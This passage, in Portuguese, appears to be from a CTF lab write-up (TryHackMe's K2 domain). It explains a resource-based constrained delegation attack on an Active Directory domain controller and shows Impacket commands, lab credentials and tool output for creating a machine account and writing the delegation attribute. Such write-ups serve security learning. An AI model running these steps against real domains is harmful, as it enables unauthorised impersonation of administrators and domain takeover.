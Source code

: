 ## 6.1 Como que funciona?
No Active Directory, **RBCD** permite que **um computador A (controlado por você)** possa se **"delegar" a agir em nome de um usuário** (por exemplo, o administrator) **ao se autenticar em um serviço hospedado no computador B** (o alvo).

Ou seja:

> Se você conseguir modificar o objeto do computador B (ex: o DC), você pode dizer ao AD:  
> **"O computador A tem permissão para se autenticar aqui como qualquer usuário do domínio".**

E isso é **exatamente o que `GenericWrite` no objeto do DC permite.**

## 6.2 Realizando o Ataque

### 6.2.1 Criando um objeto de computador no domínio

Esse será o computador "malicioso", do qual controlará a delegação
```
arthur-strelow@ubuntu-star:~$ addcomputer.py K2.THM/o.armstrong:'arMStronG08' -dc-ip 10.10.107.33 -computer-name RBCDPC$ -computer-pass 'Passw0rd123!'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account RBCDPC$ with password Passw0rd123!.
```

| **Parâmetro**                      | **Significado**                                                       |
| ---------------------------------- | --------------------------------------------------------------------- |
| `K2.THM/o.armstrong:'arMStronG08'` | Credenciais do usuário com permissão de adicionar máquinas            |
| `-dc-ip 10.10.107.33`              | IP do **Domain Controller**                                           |
| `-computer-name RBCDPC$`           | Nome do novo computador a ser criado (o `$` indica que é uma máquina) |
| `-computer-pass 'Passw0rd123!'`    | Senha definida para essa nova máquina                                 |

### 6.2.2 Configurando o campo `ms-DS-AllowedToActOnBehalfOfOtherIdentity` no DC
Esse campo fica no objeto do **computador-alvo (DC)** e define quais entidades podem fazer RBCD nele.

```
arthur-strelow@ubuntu-star:~$ rbcd.py -delegate-from RBCDPC$ -dc-ip 10.10.107.33 -action 'write' K2.THM/o.armstrong:'arMStronG08' -delegate-to K2ROOTDC$

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] RBCDPC$ can now impersonate users on K2ROOTDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     RBCDPC$      (S-1-5-21-1966530601-3185510712-10604624-1116)
```
